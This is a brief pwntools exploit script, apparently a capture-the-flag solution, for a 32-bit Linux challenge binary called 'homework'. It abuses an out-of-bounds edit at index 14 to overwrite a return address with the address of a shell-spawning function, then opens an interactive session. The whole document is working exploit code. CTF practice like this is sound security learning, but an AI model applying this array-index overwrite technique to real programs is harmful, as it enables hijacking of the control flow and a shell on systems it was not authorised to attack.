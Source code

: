 ```
from pwn import *
context.log_level = 'debug'
context(terminal = ['tmux','split','-v'])
context(arch='i386', os='linux')
local = 1
elf = ELF('./homework')
p = process('./homework')
p.recvuntil("What's your name? ")
p.sendline("Your father")
p.recvuntil("4 > dump all numbers")
p.recvuntil(" > ")
p.sendline("1")
p.recvuntil("Index to edit: ")
p.sendline("14")
p.recvuntil("How many? ")
system_addr = 0x080485FB
p.sendline(str(system_addr))
p.interactive()
```